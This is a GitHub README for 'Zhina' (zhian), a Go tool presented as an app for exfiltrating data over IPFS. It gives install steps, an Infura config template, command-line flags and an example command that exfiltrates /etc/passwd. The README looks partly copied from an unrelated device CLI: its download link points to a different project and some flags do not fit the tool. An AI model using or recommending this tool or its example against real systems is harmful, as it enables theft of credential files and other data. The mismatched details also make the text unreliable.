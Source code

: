 ### Zhina



A simple app to exfiltration data with ipfs and some features.



## Background

![zhina](zhina.png)


Zhina is a tools for exfiltration information and Dedicated to Mahsa Amini and all Iranian boys and girls


## Installation

You can install a few ways:

1. Download the binary for your OS from https://github.com/smford/tplink-hs1x-cli/releases
1. or use `go install`
   ```
   go install -v github.com/hadesscs/zhian
   ```
1. or clone the git repo and build
   ```
   git clone https://github.com/hadesscs/zhian.git
   cd zhian
   go get -v
   go build
   ```


## Configuration

Create a configuration file called `config.yaml` an example is available below:
```
---
infura:
  PROJECT_ID: [PROJECT_ID]
  API_SECRET_KEY: [API_SECRET_KEY]
```


When zhian runs it checks the current directory for a `config.yaml`, if you wish to use a different configuration file use the command `--config /path/to/file.yaml`


## Command Line Options
```
--all             For all devices
--config string   Configuration file: /path/to/file.yaml, default = ./config.yaml (default "config.yaml")
--debug           Display debugging information
--device string   What device to query, (default: "all")
--displayconfig   Display configuration
--do string       encode64, encodedForTest
--help            Display help
--path string     Path to Exfiltrate
--version         Display version information
```




##  Example Usage
| Command | Details |
|:--|:--|
| `zhian --do encode64,encodedForTest --path /etc/passwd` | Exfiltrate password file |



